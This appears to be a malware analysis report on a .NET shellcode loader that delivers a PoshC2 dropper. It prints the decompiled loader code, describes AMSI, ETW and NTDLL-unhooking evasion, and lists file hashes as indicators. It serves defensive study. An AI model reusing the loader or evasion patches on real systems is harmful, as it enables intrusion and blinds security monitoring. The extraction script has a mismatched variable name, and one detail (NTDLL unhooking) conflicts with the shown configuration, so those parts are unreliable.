


### <span style="color:lightblue">TL;DR</span>
A .NET DLL selects one of two embedded base64-encoded shellcode blobs based
on process architecture (x86/x64), decodes it, allocates RWX memory, and
executes it via `CreateThread`. The shellcode performs three evasion steps —
NTDLL unhooking, AMSI bypass, and ETW bypass — then executes an embedded
PE32 payload identified as a PoshC2 `Dropper-cs.exe`.

### <span style="color:red">Initial Analysis</span>
```
Sharp_v4_x64.dll: PE32+ executable (DLL) x86-64 Mono/.Net assembly, 3 sections
SHA256: 56ed93571e83ca344757d8ce809b5bf8ed5004cdeea92a40ea486b8478b7b26e
```

#### imports
3 P/Invoke imports from `kernel32.dll` used for shellcode injection:
```
VirtualAlloc    p/Invoke  kernel32.dll
VirtualProtect  p/Invoke  kernel32.dll
CreateThread    p/Invoke  kernel32.dll
```

This RW→RWX pattern is a indicator of shellcode injection - allocate as writable, write payload, then flip to executable
before spawning a thread.
```
PAGE_READWRITE          → initial allocation
PAGE_EXECUTE_READWRITE  → after VirtualProtect call
```

### <span style="color:red">Static Analysis</span>
#### DNspy
The DLL was decompiled with `dnSpy`. The `Main` method contains two large
base64 strings — one for x86 (`s2`) and one for x64 (`s`). Architecture
is determined via `IntPtr.Size`:
```c#
private static void Main(string[] args)
{
    byte[] array = null;
    string s  = "6AAAAABZSYnISIHBIwsAALpFd2Iw..."; // x64 shellcode
    string s2 = "6AAAAABYVYnlicIF/wsAAIHC/1MC..."; // x86 shellcode
...[snip]...
```

The execution flow is: decode base64 -> allocate RW memory -> copy shellcode ->
change protection to RWX via `VirtualProtect` -> execute via `CreateThread` ->
block indefinitely with `WaitOne`.
```c#
    if (IntPtr.Size == 4)
        array = Convert.FromBase64String(s2);
    else if (IntPtr.Size == 8)
        array = Convert.FromBase64String(s);

    IntPtr intPtr = Program.VirtualAlloc(IntPtr.Zero,
        (IntPtr)(array.Length * 2),
        Program.AllocationType.COMMIT,
        Program.Protection.PAGE_READWRITE);

    if (intPtr != IntPtr.Zero)
    {
        uint num = 0U;
        uint num2 = 0U;
        Marshal.Copy(array, 0, intPtr, array.Length);
        Program.VirtualProtect(intPtr, (IntPtr)(array.Length * 2),
            Program.Protection.PAGE_EXECUTE_READWRITE, out num);
        Program.CreateThread(IntPtr.Zero, 0U, intPtr,
            IntPtr.Zero, 0U, out num2);
        WaitHandle waitHandle = new EventWaitHandle(false,
            EventResetMode.ManualReset);
        waitHandle.WaitOne();
    }
```

#### IDA
Checking `strings` revelad that the shellcode contains a configuration block that controls which
evasion features are enabled at runtime:
```
AMS=1   → AMSI bypass enabled
ETW=1   → ETW bypass enabled
NTD=0   → NTDLL unhooking disabled
DLL=1   → DLL mode
SLP=0   → Sleep evasion disabled
```

#### <span style="color:red">NTDLL Unhooking</span>
The shellcode contains a function that bypasses EDR/AV hooks by replacing
the in-memory `ntdll.dll` `.text` section with a clean copy loaded directly
from disk via `LoadLibraryEx` with flag `0x80000000` (map as data file,
not executed). This restores any syscall stubs that may have been patched
with EDR trampolines back to their original bytes.




#### <span style="color:red">AMSI Bypass</span>
The shellcode locates `AmsiScanBuffer` in memory and patches its entry point
with a `ret` instruction, causing all subsequent AMSI scan calls to return
immediately without scanning.


#### <span style="color:red">ETW Bypass</span>
The shellcode locates `EtwEventWrite` in `ntdll` and patches its first byte
with `0xC3` (`ret`), disabling Event Tracing for Windows and preventing
the OS from logging telemetry about shellcode execution.



#### <span style="color:red">Embedded PE</span>
The shellcode contains an embedded base64-encoded PE identified by the
`TVqQ` magic header (`MZ` signature):
```
seg000:000000000001BA58  TVqQAAMAAAAEAAAA/AALgAAAA...
```

Extracted with Python:
```python
import base64
import re

with open("mw.bin", "rb") as f:
    dadta = f.read()

m = re.search(b'TVqQAAMAAAAEAAAA[A-Za-z0-9+/=]+', d)
pe = base64.b64decode(m.group(0))

with open("mw_extracted.exe", "wb") as out:
    out.write(pe)
```
```console
$ file mw_extracted.exe
mw_extracted.exe: PE32 executable (console) Intel i386 Mono/.Net assembly, 3 sections
```

SHA256 comparison confirmed this is identical to the previously analyzed
`Dropper-cs.exe` — full analysis available [here](#):
```
8e5eeb667a962dbee803572f951d08a65c67a42ecb6d6eaf8ebaaf3681e26154  mw_extracted.exe
8e5eeb667a962dbee803572f951d08a65c67a42ecb6d6eaf8ebaaf3681e26154  dropper_cs.exe
```

### <span style="color:lightblue">IOCs</span>

**Files**  
`Sharp_v4_x64.dll` — .NET shellcode loader  
\- SHA256: `56ed93571e83ca344757d8ce809b5bf8ed5004cdeea92a40ea486b8478b7b26e`  
`mw_extracted.exe` — embedded PoshC2 dropper  
\- SHA256: `8e5eeb667a962dbee803572f951d08a65c67a42ecb6d6eaf8ebaaf3681e26154`


### <span style="color:lightblue">Attack Flow</span>

%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef input fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef check fill:#fff9c4,stroke:#fbc02d,stroke-width:2px,stroke-dasharray: 5 5,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef term fill:#e0e0e0,stroke:#333,stroke-width:2px,color:#000;

    Load([Sharp_v4_x64.dll Loaded]):::input --> Main[Main - Entrypoint]:::input

    subgraph Shellcode_Selection [Shellcode Selection]
        Main --> ArchCheck{IntPtr.Size}:::check
        ArchCheck -- "== 4 (x86)" --> DecodeX86[FromBase64String s2]:::exec
        ArchCheck -- "== 8 (x64)" --> DecodeX64[FromBase64String s]:::exec
    end

    subgraph Injection [Memory Injection]
        DecodeX86 --> Alloc[VirtualAlloc RW]:::exec
        DecodeX64 --> Alloc
        Alloc --> Copy[Marshal.Copy shellcode to memory]:::exec
        Copy --> Protect[VirtualProtect → RWX]:::exec
        Protect --> Thread[CreateThread]:::exec
    end

    subgraph Evasion [Evasion]
        Thread --> NTD{NTD=0}:::check
        NTD -- Enabled --> Unhook[NTDLL Unhooking<br/>replace .text from disk]:::exec
        NTD -- Disabled --> AMSI
        Unhook --> AMSI{AMS=1}:::check
        AMSI -- Enabled --> AMSIPatch[AmsiScanBuffer → ret]:::exec
        AMSI -- Disabled --> ETW
        AMSIPatch --> ETW{ETW=1}:::check
        ETW -- Enabled --> ETWPatch[EtwEventWrite → ret]:::exec
        ETW -- Disabled --> PE
        ETWPatch --> PE
    end

    subgraph Payload [Embedded Payload]
        PE[Extract embedded PE<br/>TVqQ base64]:::exec --> Dropper((Dropper-cs.exe<br/>PoshC2)):::exec
    end
